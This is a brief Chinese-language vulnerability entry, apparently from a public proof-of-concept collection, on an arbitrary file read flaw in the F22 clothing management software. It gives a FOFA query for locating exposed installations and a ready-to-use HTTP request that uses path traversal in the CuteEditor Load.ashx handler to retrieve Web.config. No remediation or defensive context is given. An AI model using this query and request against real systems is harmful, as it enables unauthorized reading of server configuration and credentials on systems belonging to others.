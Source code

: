 # F22服装管理软件系统Load存在任意文件读取漏洞
广州锦铭泰软件科技有限公司开发的F22服装管理软件系统Load存在任意文件读取漏洞

## fofa
```javascript
body="F22WEB登陆"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1730457537214-4b469bb6-9e58-4a78-a265-a4af3a533914.png)

## poc
```java
GET /CuteSoft_Client/CuteEditor/Load.ashx?type=image&file=../Web.config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1730457891046-7fb9c455-fe97-49e6-b36e-a737c0d4719e.png)

